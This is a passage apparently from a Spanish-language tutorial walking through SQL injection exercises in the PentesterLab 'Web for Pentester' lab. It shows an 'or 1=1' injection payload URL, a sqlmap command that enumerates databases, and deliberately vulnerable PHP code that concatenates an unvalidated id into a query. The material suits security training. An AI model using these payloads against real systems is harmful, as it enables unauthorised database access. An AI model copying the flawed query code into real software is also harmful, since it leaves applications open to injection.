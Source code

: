 Sin embargo fallan en que utilizan el parámetro id como un número entero sin entrecomillarse ('), por lo que todavía sigue siendo vulnerable:

PAYLOAD
```
http://pentesterlab/sqli/example4.php?id=2 or 1=1
```


Evidentemente, en este caso también lo sacaríais con sqlmap sin problemas:

SQLMAP:
```
sqlmap -u &quot;http://pentesterlab/sqli/example4.php?id=2&quot; --dbs
```

![sqlmap2](https://4.bp.blogspot.com/-EqZBN4ZACpo/WJUoPniT94I/AAAAAAAA4fs/A5YdkLBFbXYgXpmJqmhHqiuvVsH7zDndgCEw/s1600/webforpentester_sqli_ejercicio4.png)

## Ejercicio 5

En el siguiente ejercicio se utiliza una expresión regular para asegurarse de que el parámetro id introducido es un entero. Lamentablemente el filtro es baldío porque si os fijáis sólo verifica que el INICIO del parámetro id es un entero:

Servidor
```php
<?php

  require_once('../header.php');
  require_once('db.php');
    if (!preg_match('/^[0-9]+/', $_GET["id"])) {
        die("ERROR INTEGER REQUIRED");    
    }
    $sql = "SELECT * FROM users where id=";
    $sql .= $_GET["id"] ;

    $result = mysql_query($sql);

    if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
    require '../footer.php';
?>
```
